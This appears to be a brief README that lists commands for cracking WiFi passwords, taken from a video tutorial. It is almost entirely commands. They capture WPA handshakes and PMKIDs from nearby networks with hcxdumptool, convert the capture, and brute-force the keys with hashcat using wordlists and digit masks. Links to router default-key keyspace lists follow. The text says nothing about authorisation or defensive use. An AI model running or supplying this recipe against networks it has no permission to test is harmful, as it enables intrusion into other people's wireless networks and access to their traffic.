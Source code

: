 # WiFi-Cracking-with-HashCat
Cat: Security

Hashcat wifi cracking from David Bombal's video

https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

// COMMANDS //
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15 

sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service

hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

hashcat -m 22000 hash.hc22000 wordlist.txt

Windows:
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d

Usefull repositories for routers with default passwords.
https://github.com/sheimo/Wifi-WPA-Keyspace-List
https://github.com/n0kovo/ssid-keyspace-table
